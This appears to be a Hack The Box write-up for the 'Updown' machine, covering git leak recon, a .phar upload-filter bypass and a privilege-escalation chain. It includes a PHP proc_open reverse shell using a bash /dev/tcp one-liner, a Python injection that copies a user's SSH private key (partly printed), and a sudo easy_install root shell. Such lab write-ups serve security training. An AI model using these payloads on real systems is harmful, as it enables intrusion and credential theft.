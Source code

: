# Updown -Hack The Box


## Summary

Starting with a leaky local git directory from the siteisup.htb server, which led to accessing another subdomain. It has a development feature where we can upload files. From there, we can bypass the upload restriction with the phar file and upload a PHP reverse shell with the php proc_open function. after gaining a foothold In the user's home directory, we discovered a custom setuid binary that allowed us to gain more privileged access to the server. Take the ssh shell and abuse the sudo command to escalate privileges.

## Recon

### Nmap
Starting wtih nmap port scan
```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
We can see two usual ports are open also i did a full port scan their is nothing much intertesting.	

Connecting to port 80

![image](/img/updown-web.png)
We can see from the above picture it is a site that checks to see if a website is up or down also it reveal the hostname siteisup.htb

Run a feroxbuster scan to fuzz the hidden diretory's we can found /dev and it's sub diretory /.git.

### Git
wget recursively downloaded the directory to our local machine.

```bash
Git branch -a
Git log main
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

git show 8812785e31c879261050e72e20f298ae8c43b565
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

diff --git a/.htaccess b/.htaccess
index 44ff240..b317ab5 100644
--- a/.htaccess
+++ b/.htaccess
@@ -2,3 +2,4 @@ SetEnvIfNoCase Special-Dev "only4dev" Required-Header
 Order Deny,Allow
 Deny from All
 Allow from env=Required-Header
```

Exploring the local git directory, which has only one branch, main, we checked every entry in the change log for main and found an interesting commit message."new technique in headers to protect our development vhost" Using the git show command, we can see the changes in this commit. It has another juicy piece of information to access the domain: a custom header, "Special-Dev: only4dev."From all of these details, we can understand that siteisup.htb has a vhost named "dev" and that it only has access via the custom header. We can also fuzz the subdoamin using ffuf to reveal the subdoamin.

### Developers site   
Adding dev.siteisup.htb to host file and the help of burpsuite match and replace option to add the coustom header we can opened the dev site.
![image](/img/updown-dev.png)

It seems that we can upload files to check if the website is up or down. To test the upload functions, I created a txt file with my tun0 interface IP. When we upload the file, it goes to the /uploads directory and is named with the MD5 hash. It was also removed after it was checked.

Upload directory
![image](/img/updown-hash.png)   

Our uploaded file
![image](/img/updown-ourfile.png)

Also, I tried to upload a php file, but it was failed due to some fillers. We got the response, "Extension not allowed!"

## Foothold

what we can do is we need to bypass the fillers and upload a php file to gain code execution.I tried some other extensions like phtml, php5-7, phar and Phar I got worked up. To see what functions are available, I uploaded the phar file and used the phpinfo function. Unfortunately, normal system functions are disabled expect "proc_open".


Created a revershell with proc_open
```php
<?php

$descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("file", "/tmp/error-output.txt", "a")
);
$process = proc_open("cat", $descriptorspec, $pipes);
if (is_resource($process)) {

  fwrite($pipes[0], 'echo "bash -i >& /dev/tcp/ip/port 0>&1 " > /tmp/shell.sh | chmod 777 /tmp/shell.sh | sh /tmp/shell.sh');
   /* fwrite writes to stdin, 'cat' will immediately write the data from stdin
   * to stdout and blocks, when the stdout buffer is full. Then it will not
   * continue reading from stdin and php will block here.
   */
  fclose($pipes[0]);
  while (!feof($pipes[1])) {
      $out .= fgets($pipes[1], 1024);
  }
  fclose($pipes[1]);
  $return_value = proc_close($process);
}
?>
```
Referance [http://www.navioo.com/php/docs/function.proc-open.php](http://www.navioo.com/php/docfunction.proc-open.php)

### Shell as www-data

Upload the phar file and got the shell.

![image](/img/updown-shell.png)

Also i created python script to automated these foothold step.   
here is the github link [https://gist.github.com/akhils911dev/b85ee0c853bb91625f81665a6e753e84](https://gist.github.com/akhils911dev/b85ee0c853bb91625f81665a6e753e84)


### www-data to developer

we found a coustom setuid binary from /dev directory of user developer home. which belongs with to a python script called siteisup_script.py.

```bash
 ls -la
total 32
drwxr-x--- 2 developer www-data   4096 Jun 22  2022 .
drwxr-xr-x 6 developer developer  4096 Aug 30 11:24 ..
-rwsr-x--- 1 developer www-data  16928 Jun 22  2022 siteisup
-rwxr-x--- 1 developer www-data    154 Jun 22  2022 siteisup_test.py
```
siteisup.py
```bash
www-data@updown:/home/developer/dev$ cat siteisup_test.py 
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
```
By examining the Python script, we can see that it uses our input as an url to determine whether the site is up or down. abusing this to inject Python system code to take the id_rsa of the developer.

Payload 
```python
__import__("os").system("cat /home/developer/.ssh/id_rsa > /tmp/key")
```
Executing the setuid binary with our payload
```bash
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__("os").system("cat /home/developer/.ssh/id_rsa > /tmp/key")

www-data@updown:/home/developer/dev$ head /tmp/key 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05EEcJw/
S1qi9PFoNvzkt7Uy3++6xDd95ugAdtuRL7qzA03xSNkqnt2HgjKAPOr6ctIvMDph8JeBF2
F9Sy4XrtfCP76+WpzmxT7utvGD0N1AY3+EGRpOb7q59X0pcPRnIUnxu2sN+vIXjfGvqiAY
ozOB5DeX8rb2bkii6S3Q1tM1VUDoW7cCRbnBMglm2FXEJU9lEv9Py2D4BavFvoUqtT8aCo
srrKvTpAQkPrvfioShtIpo95Gfyx6Bj2MKJ6QuhiJK+O2zYm0z2ujjCXuM3V4Jb0I1Ud+q
a+QtxTsNQVpcIuct06xTfVXeEtPThaLI5KkXElx+TgwR0633jwRpfx1eVgLCxxYk5CapHu
u0nhUpICU1FXr6tV2uE1LIb5TJrCIx479Elbc1MPrGCksQVV8EesI7kk5A2SrnNMxLe2ck
IsQHQHxIcivCCIzB4R9FbOKdSKyZTHeZzjPwnU+FAAAFiHnDXHF5w1xxAAAAB3NzaC1yc2
www-data@updown:/home/developer/dev$
```
We can now see our code is successfully executed and it copy the developers id_rsa to /tmp

## SSH as developer

Copy the key to our local machine and connected through ssh

```bash
developer@updown:~$ id && whoami
uid=1002(developer) gid=1002(developer) groups=1002(developer)
developer
developer@updown:~$ ls
dev  user.txt
developer@updown:~$ 
```
## Privilege escalation

It is the most easiast part of this machine. Just check to see what we can run as sudo. We can run easy_install as root.

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

With the help of [GTFobins](https://gtfobins.github.io/gtfobins/easy_install/#sudo) we can abuse this binary to get the root access.

```bash
developer@updown:~$ sudo /usr/local/bin/easy_install ^C
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo /usr/local/bin/easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.zMbAjkFXvF
Writing /tmp/tmp.zMbAjkFXvF/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.zMbAjkFXvF/egg-dist-tmp-AIs2rL
# id
uid=0(root) gid=0(root) groups=0(root)
```
Now we rooted.

